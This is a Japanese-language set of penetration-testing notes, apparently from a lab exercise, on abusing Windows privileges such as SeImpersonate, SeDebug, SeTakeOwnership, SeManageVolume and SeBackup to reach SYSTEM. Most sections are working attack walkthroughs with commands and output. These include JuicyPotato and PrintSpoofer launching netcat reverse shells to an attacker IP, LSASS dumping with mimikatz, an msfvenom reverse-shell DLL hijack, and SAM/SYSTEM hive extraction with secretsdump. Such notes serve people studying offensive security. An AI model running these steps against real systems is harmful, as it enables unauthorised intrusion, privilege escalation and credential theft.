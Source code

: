 # Windows における権利と特権

# ユーザー権利の割り当て

これらの権限により、ユーザーはローカルまたはリモートでのログオン、ネットワークからのホストへのアクセス、サーバーのシャットダウンなどのタスクをシステム上で実行できるようになる

このマイクロソフトの記事 [User Rights Assignment](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment) では、Windows で設定できる各ユーザー権利と、各権利に適用されるセキュリティに関する考慮事項について書かれている

| 設定 [定数](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) | 設定名                                                       | 標準割り当て                                            | 説明                                                         |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------- | ------------------------------------------------------------ |
| SeNetworkLogonRight                                          | [Access this computer from the network](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/access-this-computer-from-the-network) | Administrators, Authenticated Users                     | どのユーザーがネットワークからデバイスに接続できるかを決定する。これは、SMB、NetBIOS、CIFS、COM+ などのネットワーク プロトコルで必要 |
| SeRemoteInteractiveLogonRight                                | [Allow log on through Remote Desktop Services](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/allow-log-on-through-remote-desktop-services) | Administrators, Remote Desktop Users                    | このポリシー設定は、リモート デスクトップ サービス接続を通じてリモート デバイスのログイン画面にアクセスできるユーザーまたはグループを決定する。ユーザーは特定のサーバーへのリモート デスクトップ サービス接続を確立できるが、同じサーバーのコンソールにログオンすることはできない |
| SeBackupPrivilege                                            | [Back up files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/back-up-files-and-directories) | Administrators                                          | このユーザー権利は、システムをバックアップする目的で、ファイル、ディレクトリ、レジストリ、およびその他の永続オブジェクトのアクセス許可をバイパスできるユーザーを決定する |
| SeSecurityPrivilege                                          | [Manage auditing and security log](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/manage-auditing-and-security-log) | Administrators                                          | このポリシー設定は、ファイル、Active Directory オブジェクト、レジストリ キーなどの個々のリソースに対してオブジェクト アクセス監査オプションを指定できるユーザーを決定する。これらのオブジェクトは、システム アクセス制御リスト (SACL) を指定する。このユーザー権利を割り当てられたユーザーは、イベント ビューアーでセキュリティ ログを表示およびクリアすることもできる |
| SeTakeOwnershipPrivilege                                     | [Take ownership of files or other objects](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) | Administrators                                          | このポリシー設定は、Active Directory オブジェクト、NTFS ファイルとフォルダー、プリンター、レジストリ キー、サービス、プロセス、スレッドなど、デバイス内のセキュリティ保護可能なオブジェクトの所有権をどのユーザーが取得できるかを決定する |
| SeDebugPrivilege                                             | [Debug programs](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs) | Administrators                                          | このポリシー設定は、どのユーザーがプロセス (自分が所有していないプロセスであっても) にアタッチしたり、プロセスを開いたりできるかを決定する。アプリケーションをデバッグしている開発者には、このユーザー権利は必要ない。新しいシステム コンポーネントをデバッグする開発者には、このユーザー権利が必要。このユーザー権利により、機密性の高い重要なオペレーティング システム コンポーネントへのアクセスが提供される |
| SeImpersonatePrivilege                                       | [Impersonate a client after authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication) | Administrators, Local Service, Network Service, Service | このポリシー設定は、どのプログラムがユーザーまたは別の指定されたアカウントになりすましてユーザーの代わりに動作することを許可するかを決定する |
| SeLoadDriverPrivilege                                        | [Load and unload device drivers](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/load-and-unload-device-drivers) | Administrators                                          | このポリシー設定は、どのユーザーがデバイス ドライバーを動的にロードおよびアンロードできるかを決定する。新しいハードウェア用の署名付きドライバーがデバイス上の driver.cab ファイルにすでに存在する場合、このユーザー権利は必要ない。デバイス ドライバーは高度な特権コードとして実行される |
| SeRestorePrivilege                                           | [Restore files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/restore-files-and-directories) | Administrators                                          | このセキュリティ設定は、バックアップされたファイルとディレクトリを復元するときに、どのユーザーがファイル、ディレクトリ、レジストリ、その他の永続オブジェクトのアクセス許可をバイパスできるかを決定する。これにより、どのユーザーがオブジェクトの所有者として有効なセキュリティ プリンシパルを設定できるかが決まる |

`whoami /priv`で現在のユーザーに割り当てられているすべてのユーザー権限のリストが表示

アカウントの特権が`Disabled`でリストされている場合、それはアカウントに特定の特権が割り当てられていることを意味する。ただし、有効になるまでは、アクセス トークンで使用して、関連するアクションを実行することはできない

```powershell-session
PS C:\hatto> whoami 

winlpe-srv01\administrator


PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled 
```

この記事 [Enable All Token Privileges](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77) で紹介されているスクリプトを使用することですべてのトークン権限を有効にできる



# SeImpersonatePrivilege

`whoami /priv`などで `SeImpersonatePrivilege` がリストされている場合 `JuicyPotato` をしようすることで `DCOM/NTLM` リフレクションを悪用を介して `SeImpersonate` または `SeAssignPrimaryToken` 権限を悪用することができる

## JuicyPotato を使用した権限の昇格

これらの権限を使用して権限を昇格するには、まず `JuicyPotato.exe` バイナリをダウンロードし、これと `nc.exe` をターゲット サーバーにアップロードする。次に、ポート 8443 で Netcat リスナーを起動し、以下のコマンドを実行する。ここで、`-l` は COM サーバーのリスニング ポート、`-p` は起動するプログラム (cmd.exe)、`-a` は cmd.exe に渡される引数です。 `-t` は createprocess 呼び出し。以下では、`CreateProcessWithTokenW` 関数と `CreateProcessAsUser` 関数の両方を試行するようにツールに指示している。これらの関数には、それぞれ `SeImpersonate` 権限または `SeAssignPrimaryToken` 権限が必要

`impacket-mssqlclient` からの実行例

```
SQL (WINLPE-SRV01\sql_dev  dbo@master)> enable_xp_cmdshell
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (WINLPE-SRV01\sql_dev  dbo@master)> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.16.8 8443 -e cmd.exe" -t *
output                                                       
----------------------------------------------------------   
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375         

......                                                       

[+] authresult 0                                             

{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM   

NULL                                                         

[+] CreateProcessWithTokenW OK                               

[+] calling 0x000000000088ce08                               

NULL                                                         

SQL (WINLPE-SRV01\sql_dev  dbo@master)>          
```

正常に完了し、`NT AUTHORITY\SYSTEM` としてシェルを受け取ることができる

```
hatto@VMWare-Kali [11時55分02秒] [~] 
-> % rlwrap -cAr nc -lvnp 8443       
listening on [any] 8443 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.43.43] 49702
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
C:\Windows\system32>
```

## PrintSpoofer を使用した権限の昇格

JuicyPotato は、Windows Server 2019 および Windows 10 ビルド 1809 以降では動作しない。ただし、`PrintSpoofer` と `RoguePotato` を使用すると、同じ権限を活用し、`NT AUTHORITY\SYSTEM` レベルのアクセスを取得できる

`-c` 引数を指定してツールを使用してコマンドを実行します。ここでは、`nc.exe` を使用してリバース シェルを生成します (Netcat リスナーがポート 8443 の攻撃ボックスで待機しています)。

`impacket-mssqlclient` からの実行例

```
SQL (WINLPE-SRV01\sql_dev  dbo@master)> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.16.8 8443 -e cmd"
output                                        
-------------------------------------------   
[+] Found privilege: SeImpersonatePrivilege   

[+] Named pipe listening...                   

[+] CreateProcessAsUser() OK                  

NULL                                          

SQL (WINLPE-SRV01\sql_dev  dbo@master)> 
```

正常に完了し、`NT AUTHORITY\SYSTEM` としてシェルを受け取ることができる

```
hatto@VMWare-Kali [12時26分45秒] [~] 
-> % rlwrap -cAr nc -lvnp 8443
listening on [any] 8443 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.43.43] 49719
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```



# SeDebugPrivilege

この特権を使用すると、他のプロセスのデバッグが許可され、メモリ内の読み書きが可能になる。この特権を使用して、ほとんどのアンチウイルスおよびホスト侵入防止ソリューションを回避できるさまざまなメモリインジェクション戦略を適用できる

## メモリのダンプ

[ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) を [SysInternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) から使用して、プロセスのメモリをキャプチャできる。具体的には、これはユーザーがシステムに正常にログインした後にユーザーの資格情報を保存する**Local Security Authority Subsystem Service (LSASS)**プロセスに適用できる

```cmd-session
C:\hatto> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

その後、このダンプをmimikatzに読み込んでパスワードを取得できる

```cmd-session
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp  # sekurlsa::minidump で lsass.dmp を Mimikatz にロードする
mimikatz # sekurlsa::logonpasswords      # ローカル管理者アカウントの NTLM ハッシュを取得
```

## RCE

`NT SYSTEM`のシェルを取得したい場合は、次の方法があります：

- [**SeDebugPrivilege-Exploit (C++)**](https://github.com/bruno-1337/SeDebugPrivilege-Exploit)
- [**SeDebugPrivilegePoC (C#)**](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)
- [**psgetsys.ps1 (Powershell Script)**](https://github.com/decoder-it/psgetsystem)

PIDの取得には `tasklist` で取得できる (主に `winlogon.exe`のPIDを取得して `c:\windows\system32\cmd.exe` を起動させる)

```powershell
PS> Import-module psgetsys.ps1 
PS> ImpersonateFromParentPid -ppid <parentpid> -command <command to execute> -cmdargs <command arguments>    # -cmdargsは""にする
```



# SeTakeOwnershipPrivilege

この権限は`Active Directory object`, `NTFS file/folder`, `printers`, `registry keys`, `services`, `processes` などのセキュリティで保護されたオブジェクトの所有権をユーザに付与できる。管理者にはデフォルトで割り振られているが実際に標準ユーザーでこの権限が割り振られているアカウントに遭遇することはあまりない

つまり、権限がなくて参照できないファイルなどを参照できる権限を付与することができる

## 興味深いファイル

```shell-session
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, 
%WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```

## SeTakeOwnershipPrivilege を有効にする

権限が `Disabled` になっている場合 [EnableAllTokenPrivs.ps1](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) を使用して権限を有効にできる

もしくはこの記事 [Enable All Token Privileges](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77) で紹介されているスクリプトを使用することですべてのトークン権限を有効にできる

## ファイルの所有権の取得

[Takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) Windows バイナリを使用してファイルの所有権を変更できる

`C:\Department Shares\Private\IT\cred.txt` の所有権を取得する

```powershell-session
C:\hatto> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
 
SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\hatto".
```

## 所有権の変更の確認

```powershell-session
PS C:\hatto> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
 
Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\hatto
```

## ファイルACLの変更

ファイルをまだ読み取れない可能性があるため、ファイルを読み取れるようにするには、[icacls](https://learn.microsoft.com/ja-jp/windows-server/administration/windows-commands/icacls) を使用してファイル ACL を変更する

```powershell-session
PS C:\hatto> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant <権限を与えるユーザー名>:F

processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files
```



# SeManageVolumePrivilege

SeManageVolumePrivilegeは、ボリュームメンテナンスタスクを実行するためのユーザーサービス権限を許可する。これにより、ディスク上のユーザー権限の割り当てを変更できるようになる

以下のエクスプロイトスクリプトをターゲットマシン上で実行する

[SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit)

## DLL Hijacking

スクリプトを実行することで `C:`ドライブ内System32を含むの任意のファイルに書き込むことができる

msfvenomで `tzres.dll` とうリバースシェルを作成する。これは `systeminfo` コマンドを実行したときに呼び出されるdll

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attack ip> LPORT=1337 -f dll -o tzres.dll
```

ターゲットマシンの `C:\Windows\System32\wbem\tzres.dll` にコピーしてリスナーを起動、 `systeminfo` を実行することでシェルを取得できる



# SeBackupPrivilege

SeBackupPrivilege は、オブジェクトのセキュリティ設定に関係なく、ユーザーまたはプロセスにファイルとディレクトリを読み取る権限を持つ。この権限は、通常ユーザーがアクセスできないファイルをバックアップまたはコピーする機能を必要とする特定のバックアッププログラムまたはプロセスで使用できる。主に、レジストリからローカル管理者アカウントのパスワードハッシュを読み取るために使用され、その後、ハッシュを使用して「`psexec`」や「`wmiexec`」などのツールを使用できる(`Pass-the-Hash`)。

## 権限の悪用

### パスワードハッシュを取得する

```
reg save HKLM\SYSTEM c:\tmp\system
reg save HKLM\SAM C:\tmp\sam
```

### パスワードハッシュをdump

```
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```





